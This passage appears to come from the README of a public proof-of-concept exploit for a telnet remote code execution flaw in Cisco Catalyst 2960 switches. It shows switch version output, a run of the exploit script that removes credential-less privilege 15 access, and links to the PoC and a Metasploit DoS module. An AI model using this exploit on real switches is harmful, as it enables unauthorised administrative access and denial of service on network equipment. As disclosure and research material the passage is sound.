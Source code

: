 ```
cisco WS-C2960-48TT-L (PowerPC405) processor (revision B0) with 65536K bytes of memory.
...
Model number                    : WS-C2960-48TT-L
...

Switch Ports Model              SW Version            SW Image                 
------ ----- -----              ----------            ----------               
*    1 50    WS-C2960-48TT-L    12.2(55)SE11          C2960-LANBASEK9-M        


Configuration register is 0xF

```

To unset this behaviour:

```
$ python c2960-lanbasek9-m-12.2.55.se11.py 192.168.88.10 --unset
[+] Connection OK
[+] Recieved bytes from telnet service: '\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18\xff\xfd\x1f\r\ncatalyst1#'
[+] Sending cluster option
[+] Unsetting credless privilege 15 authentication
[+] All done
$ telnet 192.168.88.10
Escape character is '^]'.


User Access Verification

Password: 

```

This RCE POC is available [here](https://github.com/artkond/cisco-rce/) for both firware versions. DoS version of this exploit is [available](https://github.com/artkond/cisco-rce/blob/master/ios_telnet_rocem.rb) as a metasploit module, it might work for most models mentioned in the Cisco advisory.